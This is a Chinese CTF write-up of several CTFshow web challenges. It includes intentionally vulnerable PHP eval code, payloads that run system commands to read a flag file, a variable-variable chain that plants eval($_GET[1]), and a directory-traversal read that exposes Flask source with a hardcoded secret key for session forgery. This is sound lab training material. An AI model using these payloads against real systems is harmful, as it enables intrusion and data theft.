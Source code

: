 ## Web
### Web签到

```php
<?php  
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-11-10 17:20:38
# @Last Modified by:   h1xa
# @Last Modified time: 2022-11-11 09:38:59
# @email: h1xa@ctfer.com
# @link: https://ctfer.com  
*/

error_reporting(0);
highlight_file(__FILE__);
  
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

payload:
- GET: `?g=r&r[6][0][7][5][8][0][9][4][4]=system("cat /f1agaaa");`
- POST: `p=g`
- Cookie: `CTFshow-QQ群:=p`

![](attachments/Pasted%20image%2020230405093908.png)


### web2 c0me_t0_s1gn

![](attachments/Pasted%20image%2020230405094027.png)

查看源代码

![](attachments/Pasted%20image%2020230405094540.png)

半截flag  `ctfshow{We1c0me_`

看起来js函数比较复杂，但是会发现有这样一个函数，直觉上来讲，引用了几乎所有的函数和加密相关的key，结合前面的控制台的提示，在控制台尝试运行

![](attachments/Pasted%20image%2020230405094840.png)

事实上进控制台就有提示了

![](attachments/Pasted%20image%2020230405095109.png)

flag： `ctfshow{We1c0me_t0_jo1n_u3_!}`

### 我的眼里只有$

```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2022-11-10 17:20:38  
# @Last Modified by:   h1xa  
# @Last Modified time: 2022-11-11 08:21:54  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
  
error_reporting(0);  
extract($_POST);  
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);  
highlight_file(__FILE__);
```

这个形式的话想要传参就要造一层一层的参数，参数越来越长，但是相同位置需要一样

```PHP
_=__&__=___&___=____&____=_____&_____=______&______=_______&_______=________&________=_________&_________=__________&__________=___________&___________=____________&____________=_____________&_____________=______________&______________=_______________&_______________=________________&________________=_________________&_________________=__________________&__________________=___________________&___________________=____________________&____________________=_____________________&_____________________=______________________&______________________=_______________________&_______________________=________________________&________________________=_________________________&_________________________=__________________________&__________________________=___________________________&___________________________=____________________________&____________________________=_____________________________&_____________________________=______________________________&______________________________=_______________________________&_______________________________=________________________________&________________________________=_________________________________&_________________________________=__________________________________&__________________________________=___________________________________&___________________________________=____________________________________&____________________________________=eval($_GET[1]);
```

![](attachments/Pasted%20image%2020230405101507.png)


### 抽老婆
抽老婆之后有download感觉这里可以做文件读取

![](attachments/Pasted%20image%2020230405101629.png)

结合session

![](attachments/Pasted%20image%2020230405102152.png)

能够看的出来是flask的session，感觉考点可能是session伪造

先读/app/app.py,出现报错，发现是路径不对

![](attachments/Pasted%20image%2020230405102351.png)

目录穿越 `/download?file=../../../../../app/app.py`

```python
# !/usr/bin/env python
# -*-coding:utf-8 -*-

"""
# File       : app.py
# Time       ：2022/11/07 09:16
# Author     ：g4_simon
# version    ：python 3.9.7
# Description：抽老婆，哇偶~
"""

from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)



@app.route('/download', methods=['GET'])
def source(): 
    filename=request.args.get('file')
    if 'flag' in filename:
        return jsonify({"msg":"你想干什么？"})
    else:
        return send_file('static/img/'+filename,as_attachment=True)


@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})



if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80,debug=True)

```